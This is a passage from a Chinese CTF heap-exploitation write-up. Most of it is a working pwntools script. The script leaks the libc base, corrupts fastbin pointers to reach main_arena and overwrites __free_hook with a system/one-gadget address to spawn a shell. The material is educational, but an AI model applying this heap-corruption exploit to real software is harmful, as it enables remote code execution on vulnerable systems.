 ```PYTHON
edit(0x7, '7'*0x198+p64(0x410)+p64(0x411))  ##伪造的堆块后加上结构体。
dele(0x6)
dele(0x3)
add(0x3f0, '3'*0x30+p64(0xdeadbeefdeadbeef)) # chunk1, arbitrary write !!!!!!! ##将伪造的堆块申请出来，从此便可为所欲为。。。
add(0x60,  '6'*0x60 ) # 
show(0x3) ##伪造的堆块中包含small bin，泄露libc地址
io.recvuntil('3'*0x30)
io.recv(8)
LIBC = u64(io.recv(6)+'\x00\x00')-0x3c4be8
log.info("libc base 0x%016x" % LIBC)
junk  = ''
junk += '3'*0x30
junk += p64(0x81)
junk += p64(LIBC+0x3c4be8)
junk += p64(HEAP+0x300)
junk  = junk.ljust(0xa8, 'A')
junk += p64(0x80)
recovery  = ''
recovery += junk
recovery += p64(0x80) # 0x4->size
recovery += p64(0x60) # 0x4->fd  
dele(0x5)
dele(0x4)
edit(0x3, recovery) # victim, start from HEAP+0x158  ##修改fd为0x60
add(0x60,  '4'*0x60 ) # 
recovery  = ''
recovery += junk
recovery += p64(0x70) # 0x4->size
recovery += p64(0x0) # 0x4->fd
edit(0x3, recovery) # victim, start from HEAP+0x158
add(0x40,  '5'*0x30 ) # 
dele(0x5)
recovery  = ''
recovery += '3'*0x30
recovery += p64(0x61)
recovery += p64(LIBC+0x3c4b50)
edit(0x3, recovery) # victim, start from HEAP+0x158 ##修改fd指向为main_arena的fastbin数组位置
add(0x40,  '5'*0x30 ) #   
add(0x40,  p64(LIBC+0x3c5c50)) # 修改top指针指向__free_hook的上方
# recovery
edit(0xb, p64(HEAP+0x7e0))
dele(0x6)
add(0x300, '\x00') # 
add(0x300, '\x00') # 
add(0x300, '\x00') # 
add(0x300, '\x00') # 
add(0x300, '/bin/sh') # 
dele(0x1)
#add(0x300, '\x00'*0x1d0+p64(LIBC+0x45390)) # 
add(0x300, '\x00'*0x1d0+p64(LIBC+0x4526a)) # 修改__free_hook为system地址
#gdb.attach(io, execute='b *0x%x' % (EXEC+0x1247))
dele(15)
io.interactive()
```
## 结语
新姿势，向大佬学习。
## 链接
